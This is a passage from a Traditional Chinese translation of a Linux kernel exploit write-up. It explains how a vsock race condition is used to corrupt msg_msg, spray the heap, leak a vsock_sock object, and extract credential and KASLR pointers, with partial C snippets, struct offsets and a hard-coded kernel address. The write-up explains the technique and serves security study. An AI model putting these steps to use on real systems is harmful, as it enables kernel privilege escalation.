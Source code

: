 </div>
![](T01a2a2d47c9494c4a5.png "T01a2a2d47c9494c4a5.png")

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
如果在處理 msgsnd() 的過程中發生了來自 setsockopt()線程的 msg_msg.security內存損壞，進而SELinux權限檢查失敗； 在這種情況下，msgsnd()返回-1，損壞的msg_msg被銷毀；釋放msg_msg.security可以釋放原始msg_msg； 用一個可控的payload 覆蓋原始msg_msg： msgsnd()失敗後，漏洞就會調用pthread_barrier_wait()，調用127個用於堆噴射的pthreads； 這些pthreads執行setxattr()的payload； 原始msg_msg被可控的數據覆蓋，msg_msg.next指針存儲vsock_sock對象的地址；

</div>
![](T0140baae964febb059.png "T0140baae964febb059.png")

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
通過從存儲被覆蓋的 msg_msg的消息隊列中接收消息，將vsock_sock內核對象的內容讀到用戶空間：

</div>
    ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                    IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
尋找攻擊目標
------------

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
以下是我找到的點： 1.專用的塊緩存，如PINGv6和sock_inode_cache有很多指向對象的指針 2.struct mem_cgroup \*sk_memcg指針在vsock_sock.sk偏移量664處。 mem_cgroup結構是在kmalloc-4k塊緩存中分配的。 3.const struct cred \*owner指針在vsock_sock.sk偏移量840處，存儲了可以覆蓋進行權限升級的憑證的地址。 4.void (\*sk_write_space)(struct sock \*)函數指針在vsock_sock.sk偏移量688處，被設置為sock_def_write_space()內核函數的地址。它可以用來計算KASLR偏移量。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
下面是該漏洞如何從內存中提取這些指針:

</div>
    #define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
    #define OWNER_CRED_OFFSET    840
    #define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
    #define SK_WRITE_SPACE_OFFSET    688
    #define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)
    /*
     * From Linux kernel 5.10.11-200.fc33.x86_64:
     *   function pointer for calculating KASLR secret
     */
    #define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu
    unsigned long sk_memcg = 0;
    unsigned long owner_cred = 0;
    unsigned long sock_def_write_space = 0;
    unsigned long kaslr_offset = 0;

    /* ... */

        sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
                sk_memcg, SK_MEMCG_RD_LOCATION);
